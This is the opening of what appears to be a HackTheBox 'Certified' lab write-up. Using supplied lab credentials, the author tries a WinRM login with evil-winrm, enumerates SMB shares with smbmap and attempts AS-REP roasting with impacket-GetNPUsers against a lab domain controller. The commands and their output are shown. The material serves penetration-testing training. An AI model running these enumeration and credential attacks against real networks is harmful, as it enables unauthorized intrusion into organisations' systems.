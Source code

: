 # Foothold
Scan shows domain controller for `certified.htb`, so let's add it to `/etc/hosts`.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ echo "$TARGET certified.htb" | sudo tee -a /etc/hosts
10.129.121.177 certified.htb
```

In this machine we have been provided with initial credentials `judith.mader:judith09`, so let's poke around and check what we could do with it. Starting with remote management.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ evil-winrm -i certified.htb -u judith.mader -p judith09
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
                                        
Error: An error of type WinRM::WinRMAuthorizationError happened, message is WinRM::WinRMAuthorizationError
                                        
Error: Exiting with code 1
```

No luck there. Let's enumerate SMB.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ smbmap -u judith.mader -p judith09 -H certified.htb --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.129.121.177:445      Name: certified.htb             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections 
``` 

Also nothing interesting. Let's try AS-REP Roasting.
```
┌──(magicrc㉿perun)-[~/attack/HTB Certified]
└─$ impacket-GetNPUsers certified.htb/judith.mader:judith09 -outputfile hashes.txt -format hashcat
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

No entries found!
```
